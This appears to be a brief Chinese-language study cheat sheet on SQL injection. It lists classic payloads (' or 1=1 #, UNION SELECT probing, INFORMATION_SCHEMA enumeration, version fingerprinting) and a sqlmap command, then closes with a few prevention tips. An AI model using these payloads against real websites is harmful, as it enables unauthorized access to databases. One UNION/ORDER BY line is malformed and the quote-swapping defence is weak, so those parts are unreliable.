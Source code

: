 # cheetsheet

## SQL Injection 隱碼攻擊

Introduction 
發生於應用程式之資料庫層的安全漏洞
是輸入的字串之中夾帶 SQL 指令
若程式未過濾，夾帶進去的指令會被資料庫 Server 認為是正常的 SQL 指令執行

1. 最簡單語法 
' or 1=1 # (# 代表後方皆省略)

2. UNION 可以將兩個 SELECT 結合在一起查詢
'UNION SELECT 1,2,3,4# (用這個可以慢慢找出欄位數)
'UNION SELECT ORDER BY 2# (與上方同理)

3. 系統資訊結構描述
一般 SQL 資料庫中都會有一個表格是 "系統資訊結構描述" ，表格名為 Information Schema，亦可透過 UNION 方式檢視 Table Name、Column Name
'UNION SELECT  TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS#

4. 查出資料庫版本、資料庫名稱
透過版本直接上網查是不是有已知漏洞可以打
'UNION SELECT @@version,database()#

5. SQL 檢測工具 - SQLMAP (未用過)
此工具用來檢視是否有 SQL Injection，程式將 SQL Injection 攻擊語法集結而成，透過此可對網站進行滲透
COMMAND:
sqlmap -u [URL] --dbs

預防方式建議:
1. 使用正規化的方式驗證過濾輸入值，可以將 SQL 指令過濾掉，或將單引號變換為雙引號
2. 在不需要使用到更新、插入資料時，資料庫以 view 的方式處理供使用者查詢資料
3. 將伺服器與資料庫部署在不同的機器上


